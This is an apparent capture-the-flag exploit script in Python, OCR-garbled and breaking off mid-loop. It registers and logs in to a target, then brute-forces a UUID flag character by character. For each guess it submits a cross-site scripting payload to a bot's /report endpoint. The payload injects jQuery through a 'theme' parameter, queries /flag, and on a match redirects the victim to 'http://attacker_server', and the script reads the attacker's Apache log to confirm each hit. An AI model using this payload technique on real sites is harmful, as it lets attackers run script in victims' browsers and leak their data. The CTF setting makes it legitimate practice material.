 ```
def register(host):

 

    url = f"`{`host`}`/register"

    res = r.post(url, data = `{`"username":username, "password":password`}`)

 

 

def login(host):

    url = f"`{`host`}`/login"

    res = r.post(url, data = `{`"username":username, "password":password`}`)

 

 

register(host)

login(host)

 

 

uuid_table = '-abcdef1234567890'

flag_str = 'flag`{`6bb77f8b-6bc8-4b9e-b654-8a4da'

flag_str = "flag`{`6bb77f8b-6bc8-4b9e-b654-8a4da5ae920"

while True:

 

    for i in uuid_table:

        flag = flag_str + i

        payload = 'http://localhost:8888/about?theme=%22;$.ajax(`{`url:%22/flag?var=' + flag + '%22,success:(data)=&gt;`{`location.href="http://attacker_server/?test"`}``}`);//'

        print(payload)

        url = f"`{`host`}`/report"

        res = r.post(url, `{`"url":payload`}`)

        import time

        time.sleep(6)

        with open("/var/log/apache2/access.log", "r") as f:

            data = f.read()

        import os

```